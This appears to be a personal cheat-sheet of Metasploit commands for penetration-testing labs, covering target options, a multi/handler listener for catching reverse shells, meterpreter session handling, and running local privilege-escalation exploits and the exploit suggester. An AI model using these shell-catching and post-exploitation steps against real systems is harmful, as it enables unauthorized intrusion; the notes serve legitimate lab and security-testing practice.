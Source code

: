 # Metasploit
This page is just basic stuff I forget all the time. There are other Metasploit tips in sections where it's relevant.

## Advanced options
Metasploit is so derp-easy that you can usually exploit a machine by typing `show options`, setting your machine with `LHOST` and setting the target with `RHOST`. However, sometimes it doesn't work because of an unusual configuration or path issue, which you can set with `show advanced`. You may need to set the correct target using `show targets` as in [MSO8-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi).

## Meterpreter
To catch shells using meterpreter:
```
use exploit/multi/handler
set LHOST [attack machine]
set LPORT 443
run
```
If you're VPNed into a lab, pay attention to the IP address. I've noticed that the first time this module runs, it defaults to `eth0` and you have to restart it to use something like `tap0`.

### Sessions
Meterpreter is nice because it lets you maintain multiple shell sessions and use local exploits against them. For example, the [Rejetto exploit](https://www.exploit-db.com/exploits/39161/) always seems to fire a few times and with meterpreter, you can catch every shell session with a single listener.

To list active sessions:
```
sessions -l
```
To enter a session:
```
sessions -i [session number]
```
To enter a shell from a session (not use meterpreter commands):
```
shell
```
To exit the shell and return to meterpreter, type `exit`.

### Local exploits
Once you have a meterpreter shell, you can scan for local exploits and run them. 

To access local exploits, you'll need to jump out of meterpreter using `background` and select one with the `use` command:
```
meterpreter > background
use /exploit/windows/whatever
show options
[edit options as needed]
set SESSION [session number]
run
```
You'll need to select a session where the exploit will be run.

The one useful exception I've noticed is the exploit suggester for Windows which can be run from the meterpreter prompt:

```
meterpreter > run /post/multi/recon/local_exploit_suggester
```

